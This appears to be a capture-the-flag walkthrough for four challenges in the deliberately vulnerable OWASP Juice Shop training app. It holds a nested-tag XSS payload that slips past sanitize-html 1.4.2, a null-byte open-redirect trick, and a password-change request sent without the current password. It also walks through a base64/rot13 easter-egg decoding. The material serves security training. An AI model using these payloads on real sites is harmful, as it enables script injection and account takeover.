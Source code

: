 

## 4 Star Challenges

#### 29: "XSS Tier 4: Perform a persisted XSS attack bypassing a server-side security mechanism."
* solve challenge 24 first

Let's see what the developer implemented on the server side: "sanitize-html": "1.4.2"
There is an issue that sanitizing is not used recursively, so if we put a script into a script, only the outer script will be santized and the inner script will still run.

`<script>alert("XSS4")</script>`

We will put the same string after the first `<` and the `s` to make it look like this:

`<<script>alert("XSS4")</script>script>alert("XSS4")</script>`

Plus, we need another end tag `</script>` before the last closing script tag to make it execute:

`<<script>alert("XSS4")</script>script>alert("XSS4")<</script>/script>`

You can post this under "Contact Us" to solve the challenge.

#### 30: "Wherever you go, there you are."
* no pre-solved challenge necessary

The ribbon in the top right corner "Fork me on Github" contains the link `/redirect?to=https://github.com/bkimminich/juice-shop`. As always, when tampering with URLs, we should try null-bytes `%00`. When going to `/redirect?to=/%00https://github.com/bkimminich/juice-shop`, we give the redirect a valid target `https://github.com/bkimminich/juice-shop`, but keep it from actually going there.

#### 31: "Change Bender's password into slurmCl4ssic."
* solve challenge 15 first
* be logged in as Bender

When changing the password, we can intercept a packet with a GET request like this:
`GET /rest/user/change-password?current=idontknow&new=slurmCl4ssic&repeat=slurmCl4ssic`

Let's remove the current parameter and see if it still gets accepted ...
`GET /rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic`

Yes, the password still changes. So now we changed the password without knowing the old one.

> NOTE: The md5 hash of "slurmCl4ssic" is 06b0c5c1922ed4ed62a5449dd209c96d. Although Hashkiller currently has no entry for the reversal of this hash, the unsalted "slurmCl4ssic" password is not a safe password as it might be added to the database one day.

#### 32: "Apply some advanced cryptanalysis to find the real easter egg."
* solve challenge 25 first

In the eastere.gg file from /ftp there is a string `L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==`.
Decoding this with base64 (Burp Decoder can do this), we get `/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt`. That looks like a path. It doesn't lead nowhere, but we have to be close (because we can see the slashes). This could be a simple shift cypher. After trying a little bit, we can find out that this is a rot-13 shift.
Decoding it, we get `the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`. Following this link, the challenge is solved. And we get a huge orange in JavaScript as a reward.
